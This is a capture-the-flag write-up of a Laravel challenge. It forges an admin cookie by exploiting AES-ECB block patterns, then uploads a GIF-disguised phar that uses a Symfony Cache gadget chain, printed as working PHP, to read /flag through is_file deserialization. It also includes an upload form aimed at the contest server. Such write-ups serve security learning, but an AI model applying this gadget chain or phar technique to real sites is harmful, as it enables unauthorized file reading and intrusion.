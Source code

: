 # Step1-ecb
t use AES-128-ECB to encrypt username,so we can use the defects of ECB encryption to be the admin

1:register aaaaaaaaaaaaaaaa to get auth_name
2:register aaaaaaaaaaaaaaaaadmin to get auth_name
To remove the same part, u can get admin's auth_name is XAJSRxNvJLSyGo8r1aB6eQ%3D%3D,replace your auth_name in cookie,u can get the step1's flag.

# Step2-phar

Okay,and now u can get the source code.It looks one easy Laravel Demo.And the path is /var/www/html/babyphoto

image-20190908084729832.png

Laravel's method is in app/Http/Controllers,view the ctferController.php:

It looks very small:

    public function userpage(Request $request,$id)
    {   
        if($request->isMethod('get')){
          if(isset($_COOKIE['auth_name'])){
            $auth_check=$this->decrypt($_COOKIE['auth_name']);}else{
            $auth_check=Auth::user()->name;
          }
          if($auth_check==='admin'){
              $imgurl="";
              $usern='admin';
          }else{
              $imgurl="";
              $usern=Auth::user()->name;
          }
          return view('userpage')->with([
              'imgurl'=>$imgurl,
              'username'=>$usern,
              'id'=>$id
          ]);
        }else{
          if(Auth::user()->email_verified_at){
                  $file=$request->file('avatar');
                  $data=file_get_contents('/tmp/'.$file->getFilename());
                  $filesize=$file->getClientSize();
                  if($filesize > 204800){
                      die("too big");
                  }
                 //waf is here.don't rce.
                  $file->storeAs('avatars',md5(time().Auth::user()->id).'.gif');
          }else{
            die('NO!');
            }
        }      
    }
When the $request->isMethod is POST.U can upload something,but if(Auth::user()->email_verified_at) default is NULL.

In routes/api.php:

image-20190908085122085.png

U can update your account by visit /api/user/account@mail.

e.g. /api/user/venenof7@nu1l.com
image-20190908085450722.png

And now,u can upload anything:)

If u read the official document of Laravel ,u will find something in blade:

image-20190908214054010.png

Okay,now,in the source code,u will find this:

image-20190908214231716.png

and user_session use in resources/views/userpage.blade.php:

image-20190908214353816.png

The {id} is in route/web.php:

Route::any('/userpage/{id}', 'ctferController@userpage');
So,as everyone knows,is_file can trigger phar's unserialize.

So,in vendor/symfony,u will find pop chain,payload here:

<?php


namespace Symfony\Component\Cache{
    class CacheItem
    {
        protected $expiry=1;
        protected $innerItem='/flag';
        protected $poolHash=1;
    }
}
namespace Symfony\Component\Cache\Adapter{
    use Symfony\Component\Cache\CacheItem;
    class TagAwareAdapter
    {
        private $deferred;
        private $pool; 
        public function __construct(){
            $this->deferred=array(new CacheItem());
            $this->pool=new ProxyAdapter();
        }
    }
    class ProxyAdapter
    {
        private $setInnerItem='readfile';
        private $poolHash=1;
    }
    $a=new TagAwareAdapter();
    $p = new Phar('./1.phar', 0);
    $p->startBuffering();
    $p->setStub('GIF89a __HALT_COMPILER(); ?>');
    $p->setMetadata($a);
    $p->addFromString('1.txt','text');
    $p->stopBuffering();
    rename('./1.phar', 'aa.gif');
}
And now,upload aa.gif:

<html>
<body>
<form action="http://150.109.197.222/userpage/1" method="post"
enctype="multipart/form-data">
<label for="file">Filename:</label>
<input type="file" name="avatar" id="files" /> 
  <input type="hidden" name="_token" value="gBUxN4LrvxIJCn3R5UaSaAcx8aPJ8o4ulFWEgzHD">
<br />
<input type="submit" name="submit" value="Submit" />
</form>
</body>
</html>
And u can visit http://150.109.197.222/time.php to get time()
e.g:file path is /var/www/html/babyphoto/storage/app/avatars/73b79c6410809385dd2ebef592041ee4.gif

And u can use phar to read the flag by visit:
http://150.109.197.222/userpage/cGhhcjovLy92YXIvd3d3L2h0bWwvYmFieXBob3RvL3N0b3JhZ2UvYXBwL2F2YXRhcnMvNzNiNzljNjQxMDgwOTM4NWRkMmViZWY1OTIwNDFlZTQuZ2lm

image-20190908221244758.png
